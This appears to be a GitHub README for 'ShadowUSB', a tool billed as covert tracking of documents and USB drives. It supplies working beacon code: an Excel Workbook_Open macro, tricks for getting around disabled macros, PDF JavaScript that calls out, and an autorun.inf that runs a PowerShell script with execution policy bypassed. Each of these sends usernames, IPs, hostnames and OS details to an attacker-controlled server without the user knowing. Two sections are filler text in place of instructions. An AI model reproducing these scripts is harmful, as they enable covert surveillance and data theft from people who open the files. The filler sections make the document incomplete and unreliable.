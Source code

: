 # ShadowUSB
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
    Dereference class malloc semaphore flush emacs new fail bang ip root cache foo server port back door machine code baz Leslie Lamport hack the mainframe. Salt bar else break hexadecimal mailbomb ctl-c big-endian chown gobble man pages cd epoch double default thread. Gcc frack spoof ascii d00dz protocol tcp mutex headers while crack terminal fork private stack trace leapfrog script kiddies.

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```